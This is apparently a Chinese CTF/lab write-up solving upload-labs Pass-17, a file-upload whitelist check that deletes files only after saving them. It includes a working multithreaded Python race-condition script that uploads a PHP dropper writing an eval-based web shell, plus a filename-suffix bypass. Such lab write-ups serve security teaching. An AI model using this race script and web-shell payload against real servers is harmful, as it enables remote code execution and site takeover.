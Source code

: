 该题根据提示审计源码：

```javascript
//关键代码，使用白名单限制了后缀
    $ext_arr = array('jpg','png','gif');

//上传后的文件不符合白名单后缀的进行删除
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
```

根据源码判断文件是上传成功的，不符合白名单的文件被unlink函数删除。

所以这里有一个利用方法，使用多线程脚本上传文件，在服务器将文件删除之前访问到该文件，使该文件不能删除，在上传目录下发现上传的shell文件。



竞争上传脚本：

```javascript
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://192.168.242.128/upload-labs/Pass-17/index.php"
    geturl="http://192.168.242.128/upload-labs/upload/info.php"
    file={'upload_file':('info.php',"<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[ironman]);?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print "upload success!"
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```



执行脚本：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/upload_labs靶场/images/C13E85EDB3504FF0AA458791815A9F62clipboard.png)

访问成功，在上传目录下生成上传脚本：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/upload_labs靶场/images/1EBEE1ABB9B246D9AB30E2AE113F490Eclipboard.png)



方法二：

该题可参考labs3解法。

将上传的文件名改为：

phpinfo.php:.jpg，文件上传成功

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/upload_labs靶场/images/6CC52B1AFAA843B5B71F916AAC54B522clipboard.png)



然后更改文件名为，

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/upload_labs靶场/images/81E8FE8392BD47FF816133E8BC360DD4clipboard.png)

虽然显示，上传错误，但是已经在文件上传目录下生成phpinfo.php文件。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/upload_labs靶场/images/F5B92483FD5B4AB9806408CEB3449337clipboard.png)

浏览器访问：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/upload_labs靶场/images/54AE6167453C4229A0B67DFC78B8F047clipboard.png)





